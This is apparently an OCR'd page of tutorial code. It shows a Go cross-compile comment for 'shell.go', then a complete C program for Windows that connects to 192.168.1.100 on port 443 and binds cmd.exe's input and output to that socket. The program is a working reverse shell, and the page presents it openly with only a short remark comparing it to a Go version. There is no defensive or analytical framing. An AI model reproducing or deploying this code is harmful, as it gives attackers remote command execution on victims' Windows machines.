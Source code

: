 ```go
// Compile for Linux:   GOOS=linux go build -ldflags="-s -w" shell.go
// One source, multiple targets!
```

```c
// C Version - Same functionality, more complexity
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

#pragma comment(lib, "ws2_32.lib")

void main() {
    WSADATA wsaData;
    SOCKET sock;
    struct sockaddr_in server;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    
    // Initialize Winsock
    WSAStartup(MAKEWORD(2,2), &wsaData);
    
    // Create socket
    sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    
    // Setup server address
    server.sin_family = AF_INET;
    server.sin_addr.s_addr = inet_addr("192.168.1.100");
    server.sin_port = htons(443);
    
    // Connect
    WSAConnect(sock, (SOCKADDR*)&server, sizeof(server), NULL, NULL, NULL, NULL);
    
    // Setup process
    memset(&si, 0, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sock;
    
    // Execute cmd.exe
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
    
    // Wait and cleanup
    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    closesocket(sock);
    WSACleanup();
}

// Note: Windows-only, manual Winsock management, more prone to errors
```
